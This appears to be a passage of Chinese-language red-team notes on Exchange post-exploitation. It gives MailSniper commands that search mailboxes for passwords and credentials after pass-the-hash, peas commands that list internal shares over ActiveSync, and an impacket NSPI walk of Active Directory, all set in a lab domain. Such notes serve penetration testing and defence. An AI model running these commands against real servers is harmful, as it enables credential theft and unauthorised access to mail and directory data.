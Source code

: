 
### 邮件导出

如果爆出了密码，直接 web 端访问 /OWA 登录查看。

如果获得了 hash，可以 pth 后 Invoke-SelfSearch 访问 /ews 查看：
```bash
# MailSniper.ps1
# 指定 lisi 的账密查询 lisi 的所有邮件
Invoke-SelfSearch -Folder all -Mailbox lisi@island.com -ExchHostname win2012-ex2016.island.com -MailsPerUser 500 -Terms "*password*","*creds*","*credentials*","*测试*","*密码*","*拓扑*","*运维*","*VPN*","*账号*" -OutputCsv lisi-email-search.csv -Remote -User island.com\lisi -Password LS@123qwe

# 用当前会话的默认凭证搜索 zhangsan 的所有邮件
# 配合 mimikatz 实现 pth 后搜索
Invoke-SelfSearch -Folder all -Mailbox zhangsan@island.com -ExchHostname win2012-ex2016.island.com -MailsPerUser 500 -Terms "*password*","*creds*","*credentials*","*测试*","*密码*","*拓扑*","*运维*","*VPN*","*账号*" -OutputCsv zhangsan-email-search.csv
```

**相关工具**
- [b0bac/GetMail](https://github.com/b0bac/GetMail) - 利用NTLM Hash读取Exchange邮件

---

### 搜索共享文件

老版本 Exchange 支持查看域内文件共享，且支持移动端通过 `/Microsoft-Server-ActiveSync` 远程访问网络内部的共享文件。在 Exchange 2010 及其后续版本中，删除了 Outlook 的文件共享权限，但通过 `/Microsoft-Server-ActiveSync` 接口依然可以。

```bash
# UNC 路径仅支持主机名，不支持 IP 和 FQDN
python2 -m peas 192.168.123.123
python2 -m peas 192.168.123.123 -u island.com\zhangsan -p ZS@123qwe --check
python2 -m peas 192.168.123.123 -u island.com\zhangsan -p ZS@123qwe --list-unc="\\WIN2012-DC1"
```

在实战中，如果已经拿下域机器了，这个手法的使用意义不大。但是如果在域外，或者是直接攻击互联网上的 Exchange，这种手法不失为一种收集共享文件的方法，配合下面的方法收集域内所有主机名再查询共享文件效果更佳。

---

### 搜索域信息

/rpc 接口支持各种远程调用，其中包括 `[MS-OXNSPI]` 协议，该协议用于客户端从 Exchange 服务器获取 OAB 数据。Exchange 本身并不存储地址簿数据，而是通过 `[MS-NSPI]` 协议与域控通信，访问 Active Directory 来获取地址簿数据。

`[MS-OXNSPI]` 和 `[MS-NSPI]` 协议都是用于获取地址簿数据的，区别是前者用于客户端与 Exchange 通信，后者用于 Exchange 与域控通信。因此，`[MS-NSPI]` 也是继 LDAP 和 `[MS-DRSR]`（也称为 DcSync 和 DRSUAPI）之后第三个访问 Active Directory 的网络协议。

遗憾的是，`[MS-OXNSPI]` 和 `[MS-NSPI]` 并不能获取全部的 Active Directory 属性，而是 X.500 空间集的属性。而且，根据微软文档描述，这两个协议仅用于获取 AD（Active Directory） 中的地址簿数据，而不能访问整个 AD 条目。不过研究人员发现，可以通过爆破 DNT（Distinguished Name Tags）的方式遍历全部 AD 条目，但是依然无法获取额外的 AD 属性。

```bash
# 需要修改 exchanger.py，否则保存的时候可能会报解码错误。
class Exchanger:
    ......
    ......
    def set_output_file(self, filename):
        self.__outputFileName = filename
        # self.__outputFd = open(self.__outputFileName, 'w+')
        self.__outputFd = open(self.__outputFileName, 'w+', encoding="utf-8") # 添加 encoding="utf-8"

# impacket
python3 exchanger.py island.com/zhangsan:ZS@123qwe@192.168.60.116 nspi dnt-lookup -start-dnt 0 -stop-dnt 100000 -lookup-type FULL -output-file dnt.txt
```
